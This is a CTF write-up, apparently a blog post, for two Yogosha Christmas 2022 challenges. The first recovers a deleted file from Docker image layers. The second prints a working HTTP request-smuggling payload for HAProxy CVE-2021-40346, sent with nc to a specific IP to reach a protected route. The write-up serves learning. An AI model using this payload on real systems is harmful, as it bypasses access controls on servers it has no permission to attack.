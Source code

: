 ```yaml
---
layout: post
title: Xmas
category: YogoshaChristmasChallenge 2022
---
```


## Acknowledgements

I would like to thank the Yogosha team for organizing this CTF and for providing a challenging and enjoyable experience. I am honored to have placed 1st in the competition.

# 1st challenge: Welcome To Kara Org

The goal of this challenge is to read the flag secret file by pulling the image "shisuiyogo/christmas" and recovering the file as it was removed before the container is ready.

## Steps

1. Run the command `docker save 81ef8c98117b > aa.tar` to save the image as a tar file.
2. Create a new directory called `layers` using the command `mkdir layers`.
3. Extract the contents of the tar file into the new directory using the command `tar -C layers -xvf aa.tar`.
4. Change into the new directory using the command `cd layers`.
5. Run the command `ls -al 26ca41e311fdd9587039634cc34f9876d781fe386c05ff21fca606d6673ca6ee` to list the contents of the directory.
6. Change into the directory `26ca41e311fdd9587039634cc34f9876d781fe386c05ff21fca606d6673ca6ee` using the command `cd 26ca41e311fdd9587039634cc34f9876d781fe386c05ff21fca606d6673ca6ee`.
7. Extract the contents of the file `layer.tar` using the command `tar -xvf layer.tar`.
8. Read the flag file using the command `cat data/secret_note.txt`.

## Flag

FLAG{Welcome_T0-The_XmAs_Chall}

# 2nd challenge: Secret Hideout

This challenge is about haproxy `CVE-2021-40346): Integer Overflow Enables HTTP Smuggling`. The goal is to use the provided bash command to get the `/secret` route.

## Steps

1. Run the following command:

```
(printf "POST / HTTP/1.1\r\nHost: 3.82.106.93:80\r\nContent-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:\r\nContent-Length: 28\r\n\r\n"; sleep 1;printf "GET /secret HTTP/1.1\r\nDUMMY:"; printf "GET /test HTTP/1.1\r\nHost: 3.82.106.93:80\r\n\r\n") | nc 3.82.106.93 80
```
